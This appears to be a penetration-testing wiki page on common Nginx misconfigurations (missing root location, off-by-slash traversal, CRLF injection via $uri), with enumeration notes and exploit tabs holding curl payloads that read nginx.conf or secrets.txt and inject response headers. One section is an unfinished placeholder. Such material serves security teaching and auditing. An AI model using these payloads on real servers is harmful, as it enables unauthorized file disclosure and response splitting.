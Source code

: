 # Nginx 

## Theory 

NGINX is open source software for web serving, reverse proxying, caching, load balancing, media streaming, and more. But there is some common **Nginx misconfigurations** that, if left unchecked, leave the web site vulnerable to attack.

## Misconfigurations 

### Tools 

There are several tools available, such as [Gixy](https://github.com/yandex/gixy) and [Nginxpwner](https://github.com/stark0de/nginxpwner), which can automate the process of identifying misconfigurations in Nginx.

{% tabs %}
{% tab title="Gixy" %}
[Gixy](https://github.com/yandex/gixy) is a tool to analyze Nginx configuration. The main goal of Gixy is to prevent security misconfiguration and automate flaw detection. This is a static files analyzer.

```bash
#Static analyze
gixy /etc/nginx/nginx.conf
```
{% endtab %}
{% tab title="Nginxpwner" %}
[Nginxpwner](https://github.com/stark0de/nginxpwner) will dynamicly look for common Nginx misconfigurations and vulnerabilities.

```bash
#Target tab in Burp, select host, right click, copy all URLs in this host, copy to a file
cat urllist | unfurl paths | cut -d"/" -f2-3 | sort -u > /tmp/pathlist 
#Or get the list of paths you already discovered in the application in some other way. 
#Note: the paths should not start with /

#Finally, run it
python3 nginxpwner.py https://example.com /tmp/pathlist
```
{% endtab %}
{% endtabs %}

### Missing root location

{% tabs %}
{% tab title="Enumeration" %}
The **root** directive specifies the root folder for Nginx. In the following example, the root folder is `/etc/nginx` which means that we can reach files within that folder.
```
server {
        root /etc/nginx;

        location /hello.txt {
                try_files $uri $uri/ =404;
                proxy_pass http://127.0.0.1:8080/;
        }
}
```
In the above example, the root folder is `/etc/nginx` which means that we can reach files within that folder. The configuration does not have a location for `/ (location / {...})`
{% endtab %}
{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, the root directive will be globally set, meaning that requests to `/` will take you to the local path `/etc/nginx`.  
```bash
#We can get sensitive files as the nginx.conf
curl http://example.com/nginx.conf
```
{% endtab %}
{% endtabs %}


### Off-By-Slash Misconfiguration

{% tabs %}
{% tab title="Enumeration" %}
With the Off-by-slash misconfiguration, it is possible to traverse one step up the path due to a missing slash.  
Inside the Nginx configuration look the "location" statements, if someone looks like:
```
#Missing slash with alias directive
location /imgs { 
    alias /path/images/;
}

#Missing slash with proxy_pass directive
location /api {
    proxy_pass http://apiserver/v1/;
}
```
{% endtab %}
{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, there is an LFI vulnerability.
`/imgs../secrets.txt` will be transform to `/path/images/../secrets.txt`

```bash
#We can get sensitive files
curl http://example.com/imgs/../../secrets.txt

curl http://example.com/api/../../secrets.txt
```
{% endtab %}
{% endtabs %}

### Unsafe variable use

{% tabs %}
{% tab title="Enumeration" %}
Some frameworks, scripts and Nginx configurations unsafely use the variables stored by Nginx. This can lead to issues such as XSS, bypassing HttpOnly-protection, information disclosure and in some cases even RCE.

With a configuration such as the following:
```
location / {
  return 302 https://example.com$uri;
}
```
The misconfiguration related is to use `$uri` or `$document_uri` instead of `$request_uri` which results in a **CRLF injection**. This is because this two variables contain the normalized URI whereas the normalization in Nginx includes URL decoding.
{% endtab %}
{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, there is an CRLF vulnerability.    
URL-encoding the new line characters (\r\n) results in the following representation of the characters `%0d%0a`.  
When these characters are included in a request like `http://localhost/%0d%0aDetectify:%20clrf` to a server with the misconfiguration, the server will respond with a new header named Detectify since the $uri variable contains the URL-decoded new line characters.
```bash
#We send the following request
curl http://example.com/%0d%0aDetectify:%20clrf

#The server respond with a new header named Detectify
#since the $uri variable contains the URL-decoded new line characters.
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.19.3
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: https://example.com/
Detectify: clrf
```
learn more about CRLF and TTP response splitting [here](https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/)

{% endtab %}
{% endtabs %}

### Raw backend response reading

{% tabs %}
{% tab title="Enumeration" %}
enum...
{% endtab %}
{% tab title="Exploit" %}
Because of this missconfiguration in the previous example....
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/" %}
{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx" %}
